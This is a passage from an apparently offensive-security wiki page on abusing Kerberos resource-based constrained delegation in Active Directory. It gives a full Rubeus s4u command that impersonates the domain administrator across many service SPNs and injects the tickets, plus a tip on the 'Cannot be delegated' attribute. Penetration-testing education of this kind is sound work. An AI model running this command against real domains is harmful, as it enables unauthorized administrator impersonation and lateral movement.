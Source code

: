 You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

{% hint style="danger" %}
Note that users has an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him . This property can be seen inside bloodhound.
{% endhint %}

![](../../.gitbook/assets/B3.png)

